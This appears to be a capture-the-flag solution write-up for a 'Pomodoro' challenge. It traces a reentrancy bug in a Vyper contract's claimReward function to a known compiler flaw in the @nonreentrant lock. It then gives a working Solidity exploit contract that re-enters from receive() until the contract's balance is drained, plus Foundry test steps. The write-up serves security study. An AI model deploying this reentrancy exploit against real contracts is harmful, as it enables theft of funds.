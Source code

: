 # 0xjarix - Pomodoro - Solution

## Find the vulnerability

Looking at the contract we found that the only external call is present in `claimReward` function. Let's dive deeper.

```vyper
@external
@nonreentrant('')
def claimReward(_tokenId: uint256):
    # Verify NFT ownership
    assert PomodoroNFT(self.nftAddress).ownerOf(_tokenId) == msg.sender
    session: Session = self.sessions[msg.sender]

    # Ensure session is not currently paused
    assert not session.isPaused and session.ongoing

    # Calculate total session time including any previous accumulations
    totalSessionTime: uint256 = session.accumulatedTime
    totalSessionTime += block.timestamp - session.lastPause

    # Verify enough time has passed for a reward
    assert totalSessionTime >= self.sessionDuration

    # Calculate how many rewards are due
    rewardsDue: uint256 = totalSessionTime / self.sessionDuration

    # send rewards
    raw_call(msg.sender, b"", value=rewardsDue * (10 ** 16))

    # Reset or adjust session details based on remaining time
    self.remainingTime = totalSessionTime % self.sessionDuration
    self.sessions[msg.sender].ongoing = False
```

The function has a nonreentrant modifier so in theory it can't be reentered. However looking at vyper specific version vulnerability [here](https://security.snyk.io/package/pip/vyper/0.3.9) we found [this](https://security.snyk.io/vuln/SNYK-PYTHON-VYPER-5905483). `@nonreentrant('')` lock is bugged and do not check for reentrancy. Bingo!

## Exploit the contract

To exploit the contract we just need to create a contract that re-enter the function.

```solidity
contract Exploiter {
    IPomodoro pomodoro;
    IPomodoroNFT pomodoroNFT;

    constructor(address _pomodoro, address _pomodoroNFT) {
        pomodoro = IPomodoro(_pomodoro);
        pomodoroNFT = IPomodoroNFT(_pomodoroNFT);
    }

    function mintAndStartWorkSession() external payable {
        pomodoroNFT.mint{value: 0.1 ether}(address(this));
        pomodoro.startWorkSession(4);
    }

    function attack() external {
        pomodoro.claimReward(4);
    }

    receive() external payable {
        if (address(pomodoro).balance > 0) {
            pomodoro.claimReward(4);
        }
    }
}
```

Just warp for 1 pomodoro session and attack the contract.

```solidity
Exploiter exploiter = new Exploiter(address(pomodoro), address(pomodoroNFT));
exploiter.mintAndStartWorkSession{value: 0.1 ether}();
vm.warp(25 minutes + 1);
exploiter.attack();
```
